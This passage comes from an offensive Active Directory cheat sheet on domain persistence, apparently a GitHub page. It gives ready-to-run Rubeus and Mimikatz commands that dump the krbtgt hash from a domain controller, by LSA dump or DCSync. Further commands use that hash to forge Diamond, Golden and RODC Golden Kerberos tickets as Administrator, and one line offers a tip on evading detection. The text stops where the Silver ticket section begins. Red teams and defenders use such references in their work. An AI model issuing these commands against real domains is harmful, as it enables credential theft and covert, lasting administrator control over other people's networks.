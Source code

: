 ## Domain Persistence

### Diamond ticket

[Blog here](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)

```powershell
.\Rubeus.exe diamond /krbkey:<aes_krbtgt_key> /user:user1 /password:password /enctype:aes /domain:domain.local /dc:dc.domain.local /ticketuser:Administrator /ticketuserid:<target_RID> /groups:512 /nowrap
```

For better opsec, the Shapphire Ticket presented in the Active Directory - Python edition cheatsheet can be used.

### Golden ticket

#### Retrieve the krbtgt hash

* From the DC by dumping LSA

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc
```

* With a DCSync

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

#### Create TGT

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### RODC Golden Ticket

In case of a RODC, it is still possible to forge a Golden Ticket but the KRBTGT's version number is needed and only the accounts allowed to authenticate can be specified in the ticket (according to the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` lists).

```powershell
.\Rubeus.exe golden /rodcNumber:<krbtgt_number> /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:<krbtgt_aes_key> /user:user1 /id:<user_RID> /domain:domain.local /sid:<domain_SID>
```

### Silver ticket

#### Create ST

`/rc4` take the service account (generally the machine account) hash. `/aes128` or `/aes256` can be used for AES keys.
